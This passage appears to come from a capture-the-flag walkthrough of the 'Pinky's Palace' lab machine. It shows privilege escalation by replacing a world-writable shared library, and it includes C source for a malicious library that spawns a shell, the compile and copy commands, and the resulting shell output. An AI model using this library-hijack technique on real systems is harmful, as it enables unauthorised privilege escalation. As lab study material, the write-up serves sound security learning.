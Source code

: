 /lib/libpinksec.so looks promising!  Just to confirm we have the correct library: 
```gdb
pwndbg> info symbol psoptin  
psoptin in section .text of /lib/libpinksec.so  
```  
If we find the library itself, we see it's world-writeable, so we can just replace it with a malicious copy and then run the binary to elevate our privileges.
```bash
pinksec@pinkys-palace:/tmp$ ls -la /lib/libpinksec.so  
-rwxrwxrwx 1 root root 7136 May 14 23:52 /lib/libpinksec.so  
```
I used the following code to export the same functions:
```c  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
int psbanner()  
{  
setreuid(1002, 1002);  
printf("ID: %d\n", geteuid());  
execve("/bin/sh", NULL, NULL);  
}  
  
int psopt()  
{  
setreuid(1002, 1002);  
printf("ID: %d\n", geteuid());  
execve("/bin/sh", NULL, NULL);  
}  
  
int psoptin()  
{  
setreuid(1002, 1002);  
printf("ID: %d\n", geteuid());  
execve("/bin/sh", NULL, NULL);  
}  
  
```  
  Compiled it using the following:
```bash 
pinksec@pinkys-palace:/tmp$ gcc -c -fpic evillibpinksec.c  
pinksec@pinkys-palace:/tmp$ gcc -shared -o evillibpinksec.so evillibpinksec.o  
cp ./evillibpinksec.so /lib/libpinksec.so  
```  

```bash
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd  
ID: 1002  
$ id  
uid=1002(pinksecmanagement) gid=1001(pinksec) groups=1001(pinksec)  
```  
 Boom! A shell!
 
pinksecmanagement  
-----------------  
```bash  
root@kali:~/panther# ssh -p 5555 pinksecmanagement@192.168.0.74 -i id_rsa  
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
pinksecmanagement@pinkys-palace:~$  
```  